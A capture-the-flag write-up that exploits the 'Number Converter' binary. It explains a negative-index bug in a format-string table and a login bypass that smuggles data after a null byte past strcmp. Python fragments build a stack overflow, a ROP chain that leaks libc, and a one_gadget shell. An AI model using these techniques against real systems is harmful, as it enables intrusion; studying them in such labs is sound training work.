 # Number Converter

![description](./description.png)

File: [number-converter.zip](./number-converter.zip)

## Reconnaissance

We are given a zip file that contains an ELF executable running on a server and the libc used by this executable. With no more information, we can assume the goal here is to get a shell / read the flag on the server by exploiting it.

```
number-converter:  ELF 64-bit LSB executable, x86-64, [...] not stripped
```

The executable is not stripped, this is helpful to reverse engineer it as we can quickly identify relevant symbols.

When running `number-converter`, we are asked for credentials to access the actual number converter. No buffer overflow or obvious issue here.

```
$ ./number-converter 
-= Number converter v0.2 =-
login: admin  
password: password?
Invalid credentials!
```

Before taking a closer look, let's check the protections using `checksec`:

![checksec](checksec.png)

`No canary found` may hint towards a buffer overflow, but `NX enabled` means we will probably need to use ROP if we do exploit one. `No PIE` will also makes things easier by having constant addresses for the program memory.

## "Hacking" the credentials

Decompiling the `check_login` function reveals that the executable makes absolutely no attempt at hiding the credentials.

```C
bool check_login(void)
{
  int cmp;
  cmp = strcmp(username,"admin");
  if ((cmp == 0) && (cmp = strcmp(password,"sup3rus3r"), cmp == 0)) {
    return true;
  }
  return false;
}
```

This looks a bit too easy and pointless... But we will come back to this later.

## The number converter

Once logged in, we have access to a basic number conversion service. We first need to make a choice for the base to convert from and then input the number to convert. We can also choose to exit.

```
-= Number converter v0.2 =-
login: admin
password: sup3rus3r
Login success !

Input type: 
1. Decimal
2. Hexadecimal
3. Octal
0. Exit
> 2
Input number: 20
Converted: 32
```

We can't input a choice larger than 3 and there is no ovious buffer overflow here either.

First, the `read_int` function reads our choice with a secure `fgets` call and converts it to an integer using `atoi`.

```C
int read_int(void)
{
  char[16] buffer;
  fgets(&buffer,15,stdin);
  return atoi(&buffer);
}
```

Then, the input number is read with a secure `scanf` call which uses a different format string depending on our choice.

```C
scanf(formatters[choice-1],&converted);
```

 The three formatters are statically initialized in a `setup` function at the start of execution. Three pointers to the strings are stored in an array in the program memory in `formatters`.

```
gdb-peda$ p &formatters
$1 = (<data variable, no debug info> *) 0x4040e0 <formatters>

gdb-peda$ x/3s (void*)formatters 
0x402004:       "%lu"
0x402008:       "%lx"
0x40200c:       "%lo"
```

## Bad choices

The first issue with this program is located in the choice input. The program correctly checks that our choice is less than four **but fails to check for a negative choice**. Indeed, the `atoi` conversion returns a signed integer.

For example, if our choice is `-1`, the program will try to get the format string for scanf pointed at `formatter[-2]` (= the pointer at memory location `0x4040e0-16=0x4040d0`).

In most cases the `scanf` call will fail if the value there is null, or even crash if it's not null when it tries to dereference it.

```
Input type: 
1. Decimal
2. Hexadecimal
3. Octal
0. Exit
> -1010
atoi(0x7ffe71d79b20, 0x7f46dbda9a43, 0xfbad208b, 0x7ffe71d79b20)                                                       = -1010
Input number: __isoc99_scanf(20, 0x7ffe71d79b60, 0x7ffe71d79b60, 0 <no return ...>
--- SIGSEGV (Segmentation fault) ---
```

How can we exploit this ? Well, if we somehow manage to find or store a pointer to a string `"%s"` somewhere before the formatters array, we will be able to use it and effectively call `scanf("%s", &converted)` which is **very not secure**.

## Smuggling %s

What can we use to write the string `"%s"` and a pointer to `"%s"` before the formatters ? The `scanf` call will be of no use because it stores its result on the stack. Same issue with the `read_int` function.

The only remaining possibility is the login and password inputs. Lucky for us, they are stored in memory just before the `formatters` array ! All we have to do is store our string and pointer in one of these fields and we can trigger a `scanf("%s", &converted)` !

But wait... This will fail the authentication check and won't even let us access the number converter... unless... ?

Let's review how our credentials are read and checked.

```C
fgets(username,31,stdin);
fgets(password,31,stdin);
[...]
cmp = strcmp(username,"admin");
```

See the issue here ? `fgets` allows us to input null bytes but the string comparison is made with `strcmp` which stops comparing when encountering a null byte.

This means **we can input anything after the login or password followed by a null byte** and still pass the login check.

```bash
$ echo -e "admin\x00smuggling\nsup3rus3r\x00somedata" | ./number-converter
-= Number converter v0.2 =-
login: password: Login success !
```

## Putting things together

We now have a clear way to stack overflow.

First we smuggle the string `"%s"` and a pointer to this string in our username input during the login phase. We can do this because PIE is not enabled so the username address is constant.

```python
e = ELF("./number-converter")
username_addr = e.symbols[b"username"]

username = b"admin" + b"\x00" * 3 # pass username check
username += b"%s" + b"\x00" * 6 # the format string to use in the scanf call. %s to exploit buffer overflow
username += p64(username_addr + 8) # pointer to the format string input
password = b"sup3rus3r"
```

Then we use a carefully chosen negative number (hint: it's -5) to use our `"%s"` string as the formatter for `scanf` to write arbitrary data on the stack (stack overflow).

```python
fake_choice = "-5" # leads to our pointer to "%s"
p.recvuntil("> ")
p.sendline(fake_choice)
p.recvuntil("Input number:")
p.sendline("A" * 100)
```

Finally, we use the choice 0 which exits main with a `ret` instruction and... Success !

![overflow](overflow.png)

## From stack overflow to shell

We can now use the usual methods to get a shell from our stack overflow.

Since Partial RELRO is enabled, libc base is randomized. We can first leak the puts address and substract the puts offset to get the base. This is done with a simple **ROP chain** that prints the value of `puts` in the Global Offset Table, then returns to start of `main` for a second stage.

```python
puts_got = e.got[b"puts"]
puts_addr = e.symbols[b"puts"]
main_addr = e.symbols[b"main"]
pop_rdi = 0x401583 # pop rdi; ret
ropchain = p64(pop_rdi) + p64(puts_got) + p64(puts_addr) + p64(main_addr)
```

After returning to main, we exploit a second stack overflow in the same way and this time return to a one_gadget in libc that provides us a shell.

```python
libc = ELF("./libc-number-converter.so.6")
puts_offset = libc.symbols[b"puts"]
#0xe3b31 execve("/bin/sh", r15, rdx)
#constraints:
#  [r15] == NULL || r15 == NULL
#  [rdx] == NULL || rdx == NULL
one_gadget_offset = 0xe3b31
jump_address = puts_leak - puts_offset + one_gadget_offset
```

Finally we get the flag for this well thought-out challenge tagged "easy" :)

```
$ python exploit.py 
[+] Opening connection to ctf10k.root-me.org on port 5006: Done
puts leak 0x7fdc73457420
[*] Switching to interactive mode
$ cat flag.txt
RM{sc4nf_f0rm4t_str1ng_101}
```

You can find the source code for the full exploit [here](./exploit.py).
